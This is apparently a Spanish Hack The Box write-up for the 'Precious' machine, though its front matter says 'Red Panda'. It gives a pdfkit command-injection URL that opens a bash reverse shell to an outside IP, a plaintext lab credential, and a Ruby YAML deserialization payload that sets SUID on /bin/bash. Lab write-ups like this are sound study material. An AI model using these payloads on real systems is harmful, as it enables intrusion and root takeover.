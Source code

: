 ```yaml
---
title: Red Panda Writeup
published: true
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.


![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la máquina con nmap


```nmap
sudo nmap 10.10.11.189
Nmap scan report for 10.10.11.189
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


# [](#header-2) Vulnerabilidad


Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb
Despues, podríamos entrar en la página.


![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)


Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python
python3 -m http.server 4444
```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)


Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza


![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)


Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.
Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat
netcat -lnvp 4444
```

Ejemplo:
```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Revershell cambiando el ejemplo:
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}
```

Este comando que hemos creado hace:
bash -c: permite introducir strigns
bash -i: Hace que la revershell sea interacitva
/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten


![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)


Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"


```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


# [](#header-2) Escalada de privilegios


Accedemos al ssh con las credenciales de "henry"


```ssh
ssh henry@10.10.11.189
henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH
```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina


Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Escalada cambiando el ejemplo:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```


No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
